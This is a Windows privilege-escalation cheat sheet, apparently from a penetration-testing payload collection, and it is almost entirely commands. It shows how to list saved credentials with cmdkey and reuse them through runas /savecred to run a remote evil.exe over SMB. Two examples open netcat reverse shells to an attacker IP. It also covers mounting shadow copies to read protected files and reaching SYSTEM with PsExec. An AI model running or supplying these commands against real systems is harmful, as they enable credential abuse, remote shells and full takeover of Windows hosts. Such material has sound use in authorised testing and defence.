 
## EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved
credentials. The following example is calling a remote binary via an SMB share.

```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Using `runas` with a provided set of credential.

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```powershell
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

## EoP - Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies,
it's an easy way for Privilege Escalation.

```powershell
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows

# List shadow copies using diskshadow
diskshadow list shadows all

# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

## EoP - From local administrator to NT SYSTEM

```powershell
PsExec.exe -i -s cmd.exe
```
